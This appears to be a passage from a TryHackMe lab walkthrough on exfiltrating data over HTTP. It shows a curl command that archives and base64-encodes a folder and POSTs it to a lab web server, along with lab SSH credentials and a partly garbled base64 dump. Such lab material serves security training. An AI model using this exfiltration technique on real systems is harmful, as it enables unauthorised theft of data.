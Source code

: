 ```
Connecting to Victim1 machine from AttackBox

           
			
thm@attacker$ ssh thm@10.10.20.177 -p 2022
```

The goal is to transfer the folder's content, stored in /home/thm/task6, to another machine over the HTTP protocol.

```
Checking the Secret folder!

           
			
thm@victim1:~$ ls -l
total 12
drwxr-xr-x 1 root root 4096 Jun 19 19:44 task4
drwxr-xr-x 1 root root 4096 Jun 19 19:44 task5
drwxr-xr-x 1 root root 4096 Jun 19 19:44 task6
drwxr-xr-x 1 root root 4096 Jun 19 19:43 task9
```

Now that we have our data, we will be using the curl command to send an HTTP POST request with the content of the secret folder as follows,

```
Sending POST data via CURL

           
			
thm@victim1:~$ curl --data "file=$(tar zcf - task6 | base64)" http://web.thm.com/contact.php
```

We used the curl command with --data argument to send a POST request via the file parameter. Note that we created an archived file of the secret folder using the tar command. We also converted the output of the tar command into base64 representation.

Next, from the victim1 or JumpBox machine, let's log in to the webserver, web.thm.com, and check the /tmp directory if we have successfully transferred the required data. Use the following SSH credentials in order to login into the web: thm:tryhackme.

```
Checking the received data

           
			
thm@victim1:~$ ssh thm@web.thm.com 
thm@web:~$ ls -l /tmp/
total 4
-rw-r--r-- 1 www-data www-data 247 Apr 12 16:03 http.bs64
thm@web:~$ cat /tmp/http.bs64
H4sIAAAAAAAAA 3ROw7CMBBFUddZhVcA/sYSHUuJSAoKMLKNYPkkgSriU1kIcU/hGcsuZvTysEtD<
WYua1Ch4P9fRss69dsZ4E6wNTiitlTdC qpTPZxz6ZKUIsVY3v379P6j8j3/8ejzqlyrrDgF3Dr3
On/XLvI3QVshVY1hlv48/64/7I bU5fzJaa 2c5XbazzbTOtvCkxpubbUwIAAAAAAAAAAAAAAAB4
5gZKZxgrACgAAA==
```
